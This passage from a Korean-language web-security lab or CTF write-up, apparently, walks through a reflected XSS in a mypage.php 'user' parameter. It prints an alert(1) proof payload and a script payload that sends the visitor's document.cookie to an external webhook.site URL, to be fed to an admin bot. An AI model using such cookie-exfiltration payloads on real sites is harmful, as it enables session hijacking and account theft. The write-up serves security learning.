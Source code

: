 **관리자 쿠키에 포함된 플래그를 탈취하는 데 성공**하였다.

---

## XSS 3

`mypage.php`의 `user` 파라미터에 페이로드를 삽입한 결과, 아래와 같이 `alert` 창이 실행되는 것을 확인하였다.

![xss2 flag](/assets/web-screenshots/stored-reflected-xss/xss3_script.png)

```js
123"/><script>alert(1)</script>
```

입력값이 필터링 없이 HTML 문서에 **직접 렌더링(rendered)**되고 있어, **Reflected XSS 취약점이 존재함**을 확인할 수 있다.

**이를 기반으로, 관리자 봇이 스크립트가 포함된 URL에 접근하도록 유도하였다.**

```html
123"/><script>new Image().src="https://webhook.site/00da818a-c861-444c-8a3a-c50bd3e46a01?cookie="%2Bdocument.cookie</script>
```

위 페이로드를 URL에 포함하여, **관리자 봇이 해당 URL에 접속하도록 유도**할 것이다.
